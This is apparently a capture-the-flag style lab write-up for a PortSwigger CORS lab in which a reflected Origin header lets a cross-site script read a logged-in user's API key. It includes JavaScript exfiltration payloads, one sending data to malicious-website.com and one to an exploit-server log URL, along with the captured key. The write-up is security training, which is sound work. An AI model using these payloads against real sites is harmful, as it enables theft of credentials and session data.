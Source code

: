 Title: CORS vulnerability with basic origin reflection
Desc:  This website has an insecure CORS configuration in that it trusts all origins.
To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: wiener:peter 


# Theory:
These headers (Access-Control-Allow-Origin: https://malicious-website.com) state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
# Walkthrough:
Request to below site results in API key in response.
<img width="967" height="611" alt="image" src="https://github.com/user-attachments/assets/87386dd4-1eaf-45da-84c9-8254dbcd93a0" />
However, there is special request for getting API key in response from site. We can also see, that in this case the response use "Access-Control-Allow-Credentials" header.
<img width="1032" height="378" alt="image" src="https://github.com/user-attachments/assets/c420904f-14c1-4306-b543-3a12264282d8" />

Now we can check, if this site reflects Origin provided in GET request.
<img width="1058" height="358" alt="image" src="https://github.com/user-attachments/assets/f6f94504-721e-4899-84f2-0e4d83a1157e" />
It reflects value from Origin header.


Now we can exploit this behavior by placing this code in our exploit server: 
```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a5900aa0397c8f4805d2150009f002c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://exploit-0a3900b403c6c8c080e620c601370090.exploit-server.net/log?key='+this.responseText;
};
</script>
```

About this upper script:
```
req.withCredentials = true;

This line is crucial. It tells the browser to include cookies and credentials (like session tokens) with the request, enabling access to sensitive, user-specific data like account details.
This works only if the target server sets Access-Control-Allow-Credentials: true and allows the origin via CORS.
```
After clicking into link (into our malicious code) victim sends it's own api key to our server as url:
<img width="1498" height="290" alt="image" src="https://github.com/user-attachments/assets/c665b3af-4b97-4384-bae8-afd57d1e06f1" />

We can see API token in the log: 
<img width="1802" height="136" alt="image" src="https://github.com/user-attachments/assets/a7ff8b83-7db3-4dc9-87cd-ae23ea58ff26" />

RStusyP0Brg9chgUKZuZuaMHis5NXXDi

Bonus: if I try to make the same trick with url `https://0a5900aa0397c8f4805d2150009f002c.web-security-academy.net/my-account?id=wiener`
I got response, that CORS policy blocked request.
<img width="1794" height="73" alt="image" src="https://github.com/user-attachments/assets/96231c4f-2ea9-4ab0-8d9b-8a044ce82869" />





